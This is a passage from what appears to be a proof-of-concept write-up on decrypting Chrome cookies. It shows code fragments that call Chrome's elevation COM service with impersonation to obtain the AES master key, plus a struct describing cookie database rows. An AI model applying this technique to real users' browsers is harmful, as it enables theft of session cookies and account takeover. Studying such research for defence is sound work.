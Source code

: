 ```
CoSetProxyBlanket(elevator.Get(), RPC_C_AUTHN_DEFAULT, RPC_C_AUTHZ_DEFAULT, COLE_DEFAULT_PRINCIPAL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_IMP_LEVEL_IMPERSONATE, nullptr, EOAC_DYNAMIC_CLOAKING);

```
#### **Decrypt via COM**

```
BSTR bstrPlainKey = nullptr;
hr = elevator->DecryptData(bstrEncKey, &bstrPlainKey, &comErr);
```

---

## Cookies structure 

A word about the cookies structure.  All the previous POC purpose were to get the AES Master key to decrypt the cookie encrypted_value 

Here is a C++ like full cookie structure 

```
#define MAX_STR 512
#define MAX_BIN 4096

struct ChromeCookie {
    int64_t creation_utc;
    char host_key[MAX_STR];
    char name[MAX_STR];
    char value[MAX_STR];
    char path[MAX_STR];
    int64_t expires_utc;
    char top_frame_site_key[MAX_STR];
    unsigned char encrypted_value[MAX_BIN];
    int encrypted_value_len;
    int is_secure;
    int is_httponly;
    int has_expires;
    int64_t last_access_utc;
    int is_persistent;
    int priority;
    char same_site[MAX_STR];
    int source_scheme;
    int source_port;
    char same_type[MAX_STR];
    int64_t creation_utc_dup;
    int has_cross_site_ancestor;
};

```

It's worth mentioning the host_key format is ".[domain]" like ".google.com" while the encrypted_value is composed by a sha256 hash of the host_key + cookie value. 

So what we get once decrypted is sha256(host_key) + cookie_decrypted_value
